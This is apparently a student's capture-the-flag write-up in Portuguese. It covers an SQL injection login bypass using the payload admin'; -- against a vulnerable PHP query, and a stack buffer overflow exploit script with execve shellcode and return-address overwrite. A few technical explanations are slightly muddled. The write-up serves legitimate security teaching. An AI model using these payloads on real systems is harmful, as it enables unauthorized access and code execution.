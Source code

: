 # CTF - WEEK 8[](url)

## Challenge #1

**1.** Ao analisar o ficheiro _index.php_, podémos verificar que este continha uma linha onde é possível ocorrer um vulnerabilidade. 

![Terminal print - index.php file](CTFs/Img/Semana8-Desafio1/1.index_php.png)

- Podemos verificar que podemos inserir, na linha em baixo no campo $username, uma subquery que nos permita fazer login com a conta do administrador.

```php
$username = $_POST['username'];
$password = $_POST['password'];
               
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

**2.** Sendo assim, no campo _username_ no servidor poderemos colocar a seguinte _string_:

```sql
admin'; --
```
![Terminal print - login page](CTFs/Img/Semana8-Desafio1/2.login.png)


**3.** Ao instroduzir a _stirng_ referida em cima, podemos verificar que a query do ficheiro vai ficar:

```sql
SELECT username FROM user WHERE username = 'admin'; -- ".$username."' AND password = '".$password."'";
```

- Assim, conseguimos fazer "login" na conta do administrador e obter a flag.

![Terminal print - flag result](CTFs/Img/Semana8-Desafio1/3.result.png)

## Challenge #2

- Tendo uma stack com permissão de execução e um buffer overflow. O que será que se pode fazer?

**1.** Ao executar o ficheiro "program" (usando o _checksec_), podemos verificar que este imprime na shell o endereço da variável buffer. Iremos usar este valor mais tarde.

![Terminal print - execution of program file](CTFs/Img/Semana8-Desafio2/1.execute_program.png)

![Terminal print - buffer address](CTFs/Img/Semana8-Desafio2/2.gdb_buffer_address.png)

**2.** Ao usar o ficheiro _exploit-example.py_ de outros CTFs, podemos adaptar o mesmo para que funcione no CTF desta semana. <br>Explicação do código (do ficheiro "exploit-example.py"):

**2.1.** Começamos por retirar o valor do endereço do buffer que foi impresso no passo 1) (usamos Regex para obter o endereço de memória).

```py
txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
```

**2.2.** Transformar o código hexadecimal (corresponde à shell) num array de bytes.

```py
buf = bytearray.fromhex(addr)
buf.reverse()
```

**2.3.** Criar o frame pointer (váriavel "fp"). Sabemos que o frame pointer encontra-se na stack logo a seguir às variáveis locais. Este também tem um tamanho de 32 bits (ou 8 bytes) (o tamanho do frame pointer depende da arquitetura da máquina). Sendo assim, criamos um número hexadecimal constituído por oito 0's em hexadecimal.

![drawing - stack memory](CTFs/Img/Semana8-Desafio2/4.stack.png)

```py
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)
```

**2.4.** Criar a "string" final que será enviada para o exploit.

```py
finalString = b"a"*77 + fp*2 + buf
```

**2.5.** Mandar esta string para a shellcode. Para conseguirmos fazer isso teremos de colocar a string a seguir ao código hexadecimal referente à shell.

```py
p.sendline(shellcode + finalString)
```

### Conclusão

Tentamos fazer overwrite do endereço de retorno da função colocando o código referente à shellcode (shellcode). Quando este retornar este enderenço na função, vai executar o código que estiver nesse endereço, ou seja, vai executar as instruções na shellcode (mas em código).

![terminal print - flag result](CTFs/Img/Semana8-Desafio2/3.result_flag.png)
